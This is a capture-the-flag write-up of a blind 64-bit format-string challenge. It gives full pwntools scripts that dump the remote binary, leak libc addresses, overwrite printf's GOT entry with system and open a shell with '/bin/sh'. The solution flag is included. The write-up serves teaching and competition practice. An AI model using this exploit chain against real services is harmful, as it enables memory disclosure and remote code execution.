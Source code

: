 # CovidLe$s

Category: pwn <br/>
Description: `nc covidless.insomnihack.ch 6666`

## Solution

For this challenge we are only given a remote service and nothing more. Entering text prints the following:

```
test
Your covid pass is invalid : test
try again ..
```

After trying some format strings, it became clear that this was a typical (blind) format string vulnerability:

```
%p %p %p %p %p %p
Your covid pass is invalid : 0x400934 (nil) (nil) 0x7f699c1bd580 0x7f699bf918d0 0x74346e3143633456
try again ..
```

[Writeups for similar tasks can be found online](https://ctftime.org/task/9034). Contrary to these writeups, we are
dealing with a 64bit executable as can be seen from the leaked pointers. To get a better understanding of the challenge,
I planned to dump the binary step by step. To do so I had to identify the offset of our format string on the stack:

```python
for i in range(20):
    s = remote('covidless.insomnihack.ch', 6666)
    s.sendline(b'%' + flat(str(i)) + b'$pABCDEF')
    print(i, s.recv())
```

which gave the following interesting output:

```
12 b'Your covid pass is invalid : 0x4342417024323125ABCDEF\ntry again ..\n\n'
13 b'Your covid pass is invalid : 0xa464544ABCDEF\ntry again ..\n\n'
```

We can see that at offset `12` we start seeing our pattern. Adding three more filler characters aligns the pattern
perfectly at offset `13`. At this point I wrote the following code that leaks the whole binary and writes it to a file:

```python
s = remote('covidless.insomnihack.ch', 6666)

start = 0x400000
addr = start
binfile = b''

while addr < start + 0x1000:
    if '0a' in hex(addr):
        addr += 1
        binfile += b'\x00'

    try:
        s.sendline(b'|%13$s||' + p64(addr))
        data = s.recv()
        data = data[data.find(b'|') + 1 : data.find(b'||')]
        
        binfile += data + b'\x00'
        addr += len(data) + 1

    except Exception as _:
        break

s.close()

with open('bin', 'wb') as f:
    f.write(binfile)
exit()
```

This gives a binary that we can finally open in ghidra. Ghidra fails to import it by default so we need to import it as
a raw binary and analyze it later.

```
file bin 
bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, missing section headers
```

```c
int main(int argc,char **argv) {
  char pw [36];
  char input [136];
  
  pw._0_8_ = 0x74346e3143633456;
  pw._8_8_ = 0x505f44315f6e6f31;
  pw._16_8_ = 0x5379334b5f763172;
  pw._24_8_ = 0x5f74304e6e34635f;
  pw._32_4_ = 0x6b34336c;

  while (true) {
    memset(input, 0, 0x80);
    fgets(input, 0x80, _STD_IO);

    if (strcmp(input,pw) == 0) {
      break;
    }

    printf(invalid);
    printf(input);
  }

  logged_in();
}
```

It seems like the only vulnerability that we have here is the format string. We can, however, use it to overwrite
`printf`. This would allow us to call `system` with our own input string. To do so, we need to get the libc version that
the server uses. The plan is to leak a few libc adresses via the format string and then use a [libc
database](https://libc.rip/) to get the correct version.

Here I use the addresses found in the binary to leak some libc functions:

```python
s = remote('covidless.insomnihack.ch', 6666)

def leak(addr):
    s.sendline(b'|%13$s||' + p64(addr))
    data = s.recv()
    data = data[data.find(b'|') + 1:data.find(b'||')]
    return u64(data.ljust(8, b'\x00'))

print(f"puts {hex(leak(0x601018))}")
print(f"fgets {hex(leak(0x601038))}")
print(f"printf {hex(leak(0x601028))}")
```

Because the server uses ASLR, the output of this changes every time I run it but the lowest 12 bits are always the same.
Using the database I determined that the correct version of libc is
[libc6_2.27-3ubuntu1_amd64](https://libc.rip/download/libc6_2.27-3ubuntu1_amd64.so). We can check that the base address
is correct by writing some assert statements:

```python
libc.address = leak(0x601038) - libc.sym['fgets']

assert (leak(0x601038) == libc.sym['fgets'])
assert (leak(0x601028) == libc.sym['printf'])
assert (leak(0x601018) == libc.sym['puts'])
```

All we have to do now, is to write `libc.sym['system'` to the GOT entry of `printf`. This can be quite tedious to get
right. Luckily, pwntools supports a write primitive that we can use to get the string just right:

```python
s.sendline(fmtstr_payload(12, { 0x601028: libc.sym['system'] }))
s.recv()
s.sendline(b'/bin/sh')
s.interactive()
```

With this we get a remote shell and we can cat the flag: `INS{F0rm4t_5tR1nGs_FuULly_Bl1nd_!Gj!}`. The `fmtstr_payload`
function is quite nice since it does all the work for us. In case you are interested how it works exactly:

```
system: 0x7f7313acb440
[DEBUG] Sent 0x79 bytes:
    00000000  25 36 34 63  25 32 31 24  6c 6c 6e 25  35 31 63 25  │%64c│%21$│lln%│51c%│
    00000010  32 32 24 68  68 6e 25 31  32 63 25 32  33 24 68 68  │22$h│hn%1│2c%2│3$hh│
    00000020  6e 25 34 35  63 25 32 34  24 68 68 6e  25 38 63 25  │n%45│c%24│$hhn│%8c%│
    00000030  32 35 24 68  68 6e 25 39  35 63 25 32  36 24 68 68  │25$h│hn%9│5c%2│6$hh│
    00000040  6e 61 61 61  61 62 61 61  28 10 60 00  00 00 00 00  │naaa│abaa│(·`·│····│
    00000050  2c 10 60 00  00 00 00 00  2d 10 60 00  00 00 00 00  │,·`·│····│-·`·│····│
    00000060  2a 10 60 00  00 00 00 00  29 10 60 00  00 00 00 00  │*·`·│····│)·`·│····│
    00000070  2b 10 60 00  00 00 00 00  0a                        │+·`·│····│·│
    00000079
```

Each byte gets written individually and in increasing order. That's because the `%n` of a format string writes however
many characters have been written so far. We can verify the above debug output and see that it matches the bytes of the
system address:

```
64 				0x40 
64 + 51				0x73
64 + 51 + 12			0x7f
64 + 51 + 12 + 45		0xac
64 + 51 + 12 + 45 + 8		0xb4
64 + 51 + 12 + 45 + 8 + 95	0x113 (only 13 gets written in that case)
```

Of course, we could also write this ourselves (only the lowest 20 bits of the GOT need to be changed) but the pwntool
implementation seems to work quite well.

### Complete Source

```python
#!/usr/bin/python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

libc = ELF('libc')
s = remote('covidless.insomnihack.ch', 6666)

def leak(addr):
    s.sendline(b'|%13$s||' + p64(addr))
    data = s.recv()
    data = data[data.find(b'|') + 1:data.find(b'||')]
    return u64(data.ljust(8, b'\x00'))

libc.address = leak(0x601038) - libc.sym['fgets']

assert (leak(0x601038) == libc.sym['fgets'])
assert (leak(0x601028) == libc.sym['printf'])
assert (leak(0x601018) == libc.sym['puts'])

s.sendline(fmtstr_payload(12, { 0x601028: libc.sym['system'] }))
s.recv()
s.sendline(b'/bin/sh')
s.interactive()
```

To dump the binary I used:

```python
#!/usr/bin/python
from pwn import *

context.arch = 'amd64'
context.log_level = 'warn'

s = remote('covidless.insomnihack.ch', 6666)

start = 0x400000
addr = start
binfile = b''

while addr < start + 0x1000:
    if '0a' in hex(addr):
        addr += 1
        binfile += b'\x00'

    try:
        s.sendline(b'|%13$s||' + p64(addr))
        data = s.recv()
        data = data[data.find(b'|') + 1 : data.find(b'||')]
        
        binfile += data + b'\x00'
        addr += len(data) + 1

    except Exception as _:
        break

s.close()

with open('bin', 'wb') as f:
    f.write(binfile)
exit()
```

